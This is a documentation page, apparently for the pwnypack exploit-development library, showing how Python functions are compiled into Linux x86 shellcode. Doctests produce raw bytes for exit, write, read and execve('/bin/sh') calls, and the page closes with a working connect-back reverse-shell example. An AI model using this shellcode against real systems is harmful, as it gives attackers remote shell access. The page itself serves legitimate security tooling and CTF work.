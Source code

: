 .. _imperative-shellcode:

Imperatively defined shellcode
==============================

When using the imperatively defined shellcode, you translate a python function
to a set of shellcode primitives.

The set of operations you can use in your python function is limited. The
properties of the environment (syscalls, registers, functions) are exposed
as if they were magic globals: you cannot shadow them.

You translate a function by using the environment's
:meth:`~pwnypack.shellcode.base.BaseEnvironment.translate` class method.

Examples:

    The following example creates an instance of the LinuxX86 environment
    and assembles a piece of shellcode that just calls the exit system call.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     sys_exit(0)
    ...
    >>> shellcode()
    '1\xdb\xb8\x01\x00\x00\x00\xcd\x80'

    To demonstrate how registers loading works, here's an example that does
    the same thing but in a different way:

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     EAX = 0
    ...     sys_exit(EAX)
    ...
    >>> shellcode()
    '1\xc0\x89\xc3\xb8\x01\x00\x00\x00\xcd\x80'

    You can also use strings or bytes. If you use a unicode string, it will
    be UTF-8 encoded and zero-terminated. Bytes are allocated verbatim.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     sys_write(1, u'hello', 5)
    ...     sys_exit(0)
    ...
    >>> shellcode()
    '\xe8\x00\x00\x00\x00]\x83\xc5 \xba\x05\x00\x00\x00\x89\xe9\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x801\xdb\xb8\x01\x00\x00\x00\xcd\x80hello\x00'

    Or use lists as syscall arguments.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     sys_execve(u'/bin/sh', [u'/bin/sh', None], None)
    ...
    >>> shellcode()
    '\xe8\x00\x00\x00\x00]\x83\xc5\x151\xd21\xc0PU\x89\xe1\x89\xeb\xb8\x0b\x00\x00\x00\xcd\x80/bin/sh\x00'

    Need a buffer to write something to? We've got you covered.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode():
    ...     buf = alloc_buffer(64)
    ...     sys_read(0, buf, buf.length)
    ...     sys_write(1, buf, buf.length)
    ...     sys_exit(0)
    ...
    >>> shellcode()
    '\xba@\x00\x00\x00\x89\xe91\xdb\xb8\x03\x00\x00\x00\xcd\x80\xba@\x00\x00\x00\x89\xe9\xbb\x01\x00\x00\x00\xb8\x04\x00\x00\x00\xcd\x801\xdb\xb8\x01\x00\x00\x00\xcd\x80'

    You can also pass parameters to the shellcode function.

    >>> from pwny import *
    >>> @sc.LinuxX86Mutable.translate
    ... def shellcode(command):
    ...     sys_execve(u'/bin/sh', [u'/bin/sh', command, None], None)
    ...
    >>> shellcode(u'ls -lR')
    '\xe8\x00\x00\x00\x00]\x83\xc5\x1a1\xd21\xc0PU\x8dE\x07P\x89\xe1\x8d]\x07\xb8\x0b\x00\x00\x00\xcd\x80ls -lR\x00/bin/sh\x00'

    Combining all that, here's a somewhat larger example that also
    demonstrates using global and local variables and register aliases to
    implement a connect-back shell::

        from pwny import *
        import socket

        @sc.LinuxX86Mutable.translate
        def shell_connect(addr, port, shell=u'/bin/sh'):
            # Prepare the sockaddr_in struct:
            sockaddr = pack(
                'H2s4s8s',
                socket.AF_INET,
                P16(port, endian=Target.Endian.big),
                socket.inet_aton(addr),
                b'........',  # Doesn't really have to be \0
                target=target
            )

            # Set up register aliases (for convenience):
            arg0 = SYSCALL_ARG_MAP[0]
            arg1 = SYSCALL_ARG_MAP[1]
            socket_reg = SYSCALL_ARG_MAP[4]

            # Prepare socket:
            socket_reg = sys_socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_TCP)
            sys_connect(socket_reg, sockaddr, len(sockaddr))

            # Dup2 stdin/out/err to socket and execute shell:
            sys_dup2(socket_reg, 0)
            reg_add(arg1, 1); sys_dup2(arg0, arg1)
            reg_add(arg1, 1); sys_dup2(arg0, arg1)
            sys_execve(shell, [shell, None], None)
